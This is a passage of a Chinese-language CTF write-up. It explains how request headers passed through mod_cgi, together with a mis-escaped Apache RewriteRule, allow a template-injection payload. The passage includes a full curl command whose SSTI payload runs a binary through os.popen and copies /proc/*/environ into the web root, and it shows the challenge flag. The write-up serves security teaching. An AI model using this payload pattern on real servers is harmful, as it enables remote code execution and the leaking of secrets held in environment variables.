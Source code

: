 
結合 `mod_cgi` 在處裡 Request 時會把所有的 HTTP Request Header 用環境變數的方式設定到 Process 這件事，我們能用來繞過 Filter 把 Payload 貓進目標：

```bash
curl "http://55f86cf0bd234865a313b9b5044d33b90.cat.chummy.tw:29999" --header "HACKER-NEKO:<h1>SSTI</h1>{{ builtins.__import__('os').popen('/readflag').buffer.read().decode('utf8', 'ignore') }}" --data-raw 'cat= /proc/**/environ > /var/www/html/neko' --output /dev/null
```

![neko-flag](neko-flag.webp)

Flag: `AIS3{mEoW~m3Ow~Me0W~m30W~M3ow~M3OW~524368e6a58cac99}`

這裡觸發 SSTI 時使用的 `/cgi-bin/render/neko` 是非預期解，預期的解法是在 Apache 的設定檔中貓到觸發 `/cgi-bin/render` 的這段設定：

```php
RewriteEngine On
RewriteRule ^(.+.cat)$ - [H=application/x-httpd-cat,END]
Action application/x-httpd-cat /cgi-bin/render
```

其中的 `RewriteRule` 設定錯誤，第二個 `.` 沒有被 Escape，導致語意變成只需要一個或多個任意字元接上 `cat` 就可以把 Content Type 改成 `x-httpd-cat`，這可以用來繞過 `index.cat` 中我們無法貓檔案到有 `.` 的 Filter（也就是說，預期解是把貓貓到 `nekocat` 並且直接用瀏覽器去貓，在沒有這個漏洞的情況下我們要把貓貓到 `neko.cat` 但會遇到貓貓的貓名不能有 `.` 的 Filter）。

### Board Board

Solves: 1/389\
Author: Ching367436

First Blood 🩸

{{<details "Source code"></details>}}

Hint 1：推薦多多注意語言特性\
Hint 2：（好像有個 Command Injection 可以用（？

Tomcat 應用程式中的其中一個 Servlet，`'` 在 Bash 中無法被 `\` 和 `'` 以外的字元 Escape，並且內容物會完全被當作字串看待，除非我們能繞過 `'` 的檢查不然無法達成 Command Injection。
